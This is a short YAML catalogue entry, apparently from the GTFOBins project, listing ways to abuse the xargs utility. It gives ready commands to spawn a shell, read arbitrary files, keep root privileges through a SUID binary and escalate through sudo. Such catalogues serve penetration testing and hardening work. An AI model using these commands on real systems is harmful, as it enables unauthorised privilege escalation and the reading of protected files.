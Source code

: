 ```yaml
---
name: xargs
functions:
  shell:
    - description: GNU version only.
      code: xargs -a /dev/null sh
    - code: echo x | xargs -Iy sh -c 'exec sh 0<&1'
    - description: Read interactively from `stdin`.
      code: |
        xargs -Ix sh -c 'exec sh 0<&1'
        x^D^D
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid:
    - description: GNU version only.
      code: ./xargs -a /dev/null sh -p
  sudo:
    - description: GNU version only.
      code: sudo xargs -a /dev/null sh
---
```

